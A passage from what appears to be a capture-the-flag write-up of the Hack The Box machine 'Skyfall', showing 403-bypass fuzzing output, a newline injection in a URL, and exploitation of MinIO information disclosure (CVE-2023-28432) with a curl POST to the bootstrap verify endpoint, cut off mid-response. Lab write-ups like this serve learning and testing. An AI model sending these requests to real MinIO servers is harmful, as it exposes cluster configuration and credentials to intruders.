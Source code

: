 ```bash
302       428 bytes http://demo.skyfall.htb/?metrics

━━━━━━━━━━━━━━━ HTTP VERSIONS ━━━━━━━━━━━━━━━━

━━━━━━━━━━━━ PATH CASE SWITCHING ━━━━━━━━━━━━━
```

> Note: `403` lines removed from output, there was a lot D:
{: .prompt-info }

Welp, newline injection in url is new, but it gives us 200 response!

![Writeup-7.png](/assets/images/Machines/Skyfall/Writeup-7.png)

On last line we see interesting domain, update `/etc/hosts`
```bash
minio_endpoint_url | demo.skyfall.htb | http://prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster
```

[CVE-2023-28432](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-28432) [Minio - Information Disclosure](https://pentest-tools.com/vulnerabilities-exploits/minio-information-disclosure_39)

GET request didn't work, but the post request worked.
```bash
└─$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify -s | jq
{
  "MinioEndpoints": [
    {
      "Legacy": false,
      "SetCount": 1,
      "DrivesPerSet": 4,
      "Endpoints": [
        {
          "Scheme": "http",
          "Opaque": "",
          "User": null,
          "Host": "minio-node1:9000",
          "Path": "/data1",
          "RawPath": "",
          "OmitHost": false,
          "ForceQuery": false,
          "RawQuery": "",
          "Fragment": "",
```